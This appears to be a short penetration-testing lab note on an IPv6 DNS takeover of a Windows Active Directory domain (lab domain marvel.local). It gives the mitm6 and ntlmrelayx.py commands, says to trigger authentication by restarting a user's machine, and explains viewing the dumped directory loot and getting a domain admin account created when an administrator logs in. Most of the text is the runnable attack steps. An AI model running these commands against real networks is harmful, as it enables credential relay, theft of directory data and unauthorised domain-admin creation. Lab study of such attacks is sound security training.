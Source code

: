 
### Start mitm6

```kali
mitm6 -d (domain_name)
```

![image1](image1-96.png)

### Start ntlmrelayx.py

```kali linux
ntlmrelayx.py -6 -t ldaps://(domain_controller_IP_Address) -wh fakewpad.marvel.local -L lootme
```

![image2](image2-45.png)

### Trigger an Event

- You can trigger an event by restarting a user's machine

### Results

![image3](image3-31.png)

1.  Basically it will be checking what type of privileges a user may have
2.  Also it will be dumping information into the lootdir which you can view.

### Accessing the dumped Lootdir

![image4](image4-21.png)

- You can open them with firefox

Example:
```cmd
firefox domain_users_by_group.html
```

![image5](image5-13.png)

### Creates an admin account when an admin user logs into their machine.

- Let's say you figure out how to turn off a particular machines based on the domain admins you found above.
- Once they log into their machine, lets say in the morning, the mitm6 will attempt to create a domain admin.
- Scroll through the results and you will find this:

![image6](image6-7.png)

